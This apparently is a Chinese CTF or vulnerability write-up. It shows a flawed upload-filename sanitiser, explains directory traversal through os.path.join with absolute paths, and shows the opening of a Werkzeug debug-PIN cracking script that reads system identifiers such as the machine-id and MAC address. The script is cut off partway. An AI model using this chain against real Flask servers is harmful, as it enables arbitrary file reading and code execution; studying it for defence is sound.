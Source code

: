 ```python
"""
TODO: get unique filename
"""


def get_unique_upload_name(unsafe_filename):
    spl = unsafe_filename.rsplit("\\.", 1)
    file_name = spl[0]
    file_extension = spl[1]
    return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension


"""
Recursively replace a pattern in a string
"""


def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```

在`send_report`函数中,虽然对`../`进行了过滤,但是由于`os.path.join`的存在,可以进行目录遍历和任意文件读取

当`os.path.join`调用遇到绝对路径时,它会忽略在该点之前遇到的所有参数并开始使用新的绝对路径,当参数可控时,我们控制恶意参数输入绝对路径,可能产生目录遍历

![](https://img.mi3aka.eu.org/2022/08/11601daae01c3f08391f0736a60ea38c.png)

![](https://img.mi3aka.eu.org/2022/08/285168606408c0e9830c619b1aaa5dec.png)

发现其开启了flask的debug模式,利用任意文件读取可以对flask的pin码进行破解

![](https://img.mi3aka.eu.org/2022/08/ea18124a6ac4a403efc58be408cf2da4.png)

---

Flask pin码破解

[https://raw.githubusercontent.com/wdahlenburg/werkzeug-debug-console-bypass/main/werkzeug-pin-bypass.py](https://raw.githubusercontent.com/wdahlenburg/werkzeug-debug-console-bypass/main/werkzeug-pin-bypass.py)

```python
#!/bin/python3
import hashlib
from itertools import chain

probably_public_bits = [
	'root',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
	'2485377892354',# str(uuid.getnode()),  /sys/class/net/ens33/address /sys/class/net/eth0/address 将16进制转换成10进制
	# Machine Id: /etc/machine-id(部分linux系统可能没有,直接忽略即可) + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
	'1222106c-51fc-4deb-bc76-3a0e8123ecd75e5fb2cb3c55faf7ef369518259de66b251fa02647e1dca9db0b943d6f8c4235'
]

h = hashlib.sha1() # Newer versions of Werkzeug use SHA1 instead of MD5
```